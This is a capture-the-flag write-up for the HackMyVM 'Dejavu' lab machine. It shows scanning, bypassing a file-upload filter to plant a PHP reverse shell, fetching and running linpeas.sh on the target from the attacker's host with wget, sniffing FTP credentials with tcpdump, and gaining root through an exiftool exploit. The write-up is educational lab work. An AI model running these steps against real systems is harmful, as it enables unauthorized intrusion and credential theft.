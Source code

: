 ```yaml
---
title: HackMyVM:Dejavu - Writeup
author: Elman Alizadeh
date: 2022-06-21 16:50:00 +0800
categories: [ctf, HackMyVM]
tags: [hackmyvm, dejavu]
---
```


Today we will take a look at HackMyVM: Dejavu. My goal in sharing this writeup is to show you the way if you are in trouble. Please try to understand each step and take notes.

![Desktop View]({{ "/assets/img/hmv-dejavu/1.png" | relative_url }})

## Nmap

```console
──(al1z4deh㉿kali)-[~/ctf/hmv/dejavu]
└─$ sudo nmap -p- -sCV --open -oN nmap/open 192.168.0.110

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:8f:5b:43:62:a1:5b:41:6d:7b:6e:55:27:bd:e1:67 (RSA)
|   256 10:17:d6:76:95:d0:9c:cc:ad:6f:20:7d:33:4a:27:4c (ECDSA)
|_  256 12:72:23:de:ef:28:28:9e:e0:12:ae:5f:37:2e:ee:25 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
MAC Address: 3C:A0:67:C5:35:33 (Liteon Technology)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Gobuster

```console
──(al1z4deh㉿kali)-[~/ctf/hmv/dejavu]
└─$ gobuster dir -u http://192.168.0.110 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .php,.html,.txt               
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.0.110
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,txt,php
[+] Timeout:                 10s
===============================================================
2022/06/21 15:18:12 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10918]
/info.php             (Status: 200) [Size: 69964]
```

## Web

When we look at the /info.php page, we can see that it is a simple php page, but when we look at the source code, we see the tip given to us

view-source:http://192.168.0.110/info.php

![Desktop View]({{ "/assets/img/hmv-dejavu/2.png" | relative_url }})

http://192.168.0.110/S3cR3t/

Could not upload webshell to /upload.php

![Desktop View]({{ "/assets/img/hmv-dejavu/3.png" | relative_url }})

Accordingly, I am looking for an extension that I can bypass with burpsuite

![Desktop View]({{ "/assets/img/hmv-dejavu/4.png" | relative_url }})

I got the wordlist for the extension here.

[Wordlist](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/extensions-most-common.fuzz.txt)

![Desktop View]({{ "/assets/img/hmv-dejavu/5.png" | relative_url }})

That’s what we found. I use this tool to get the reverse shell using the .phtml extension

[Tool](https://github.com/kriss-u/chankro-py3)

```console
└─$ git clone https://github.com/kriss-u/chankro-py3.git

└─$ cd chankro-py3

└─$ nano rev.sh
# Change ip and port

$ python3 chankro.py --arch 64 --input rev.sh --output shell.phtml --path /var/www/html/.HowToEliminateTheTenMostCriticalInternetSecurityThreats

-=[ Chankro ]=-
    -={ @TheXC3LL }=-

[+] Binary file: rev.sh
[+] Architecture: x64
[+] Final PHP: shell.phtml

[+] File created!
```

Here is the file uploaded, let’s listen

http://192.168.0.110/S3cR3t/files/shell.phtml

## robert

```console
└─$ nc -nvlp 9001      
listening on [any] 9001 ...
connect to [192.168.0.108] from (UNKNOWN) [192.168.0.110] 47062
bash: cannot set terminal process group (771): Inappropriate ioctl for device
bash: no job control in this shell

<nMostCriticalInternetSecurityThreats/S3cR3t/files$ cd /tmp

www-data@dejavu:/tmp$ ls

www-data@dejavu:/tmp$ export TERM=xterm

www-data@dejavu:/tmp$ wget http://192.168.0.108/linpeas.sh

--2022-06-21 11:33:48--  http://192.168.0.108/linpeas.sh
Connecting to 192.168.0.108:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 660177 (645K) [text/x-sh]
Saving to: 'linpeas.sh'


     0K .......... .......... .......... .......... ..........  7%  212K 3s
    50K .......... .......... .......... .......... .......... 15%  838K 2s
   100K .......... .......... .......... .......... .......... 23% 1.12M 1s
   150K .......... .......... .......... .......... .......... 31%  823K 1s
   200K .......... .......... .......... .......... .......... 38%  695K 1s
   250K .......... .......... .......... .......... .......... 46% 1.50M 1s
   300K .......... .......... .......... .......... .......... 54%  835K 0s
   350K .......... .......... .......... .......... .......... 62% 2.92M 0s
   400K .......... .......... .......... .......... .......... 69% 1.01M 0s
   450K .......... .......... .......... .......... .......... 77%  850K 0s
   500K .......... .......... .......... .......... .......... 85%  346K 0s
   550K .......... .......... .......... .......... .......... 93%  170M 0s
   600K .......... .......... .......... .......... ....      100% 1.51M=0.9s

2022-06-21 11:33:49 (748 KB/s) - 'linpeas.sh' saved [660177/660177]

www-data@dejavu:/tmp$ chmod +x linpeas.sh

www-data@dejavu:/tmp$ ./linpeas.sh
```

I’m looking for something to use linpeas.sh

![Desktop View]({{ "/assets/img/hmv-dejavu/6.png" | relative_url }})

There is traffic inside the 21 ports, so we have the authority to listen to it

```console
www-data@dejavu:/tmp$ sudo -u robert tcpdump -i lo port 21
```

![Desktop View]({{ "/assets/img/hmv-dejavu/7.png" | relative_url }})

Let’s find the password and enter it with ssh

## Ssh

```console
└─$ ssh robert@192.168.0.110
```

## Root

```console
robert@dejavu:~$ sudo -l
Matching Defaults entries for robert on dejavu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User robert may run the following commands on dejavu:
    (root) NOPASSWD: /usr/local/bin/exiftool
```

I found an exploit for exiftool

[Exiftool](https://www.exploit-db.com/exploits/50911)

I created an exploit.py file and add it. I tested

![Desktop View]({{ "/assets/img/hmv-dejavu/8.png" | relative_url }})

Here is the answer to us as root

Now let’s use this and change root password

![Desktop View]({{ "/assets/img/hmv-dejavu/9.png" | relative_url }})

Let’s root now

```console
robert@dejavu:~$ su root
```

![Desktop View]({{ "/assets/img/hmv-dejavu/10.png" | relative_url }})

### And now we are the root

![Desktop View]({{ "/assets/img/hmv-dejavu/1.gif" | relative_url }})

“If you have any questions or comments, please do not hesitate to write. Have a good days”
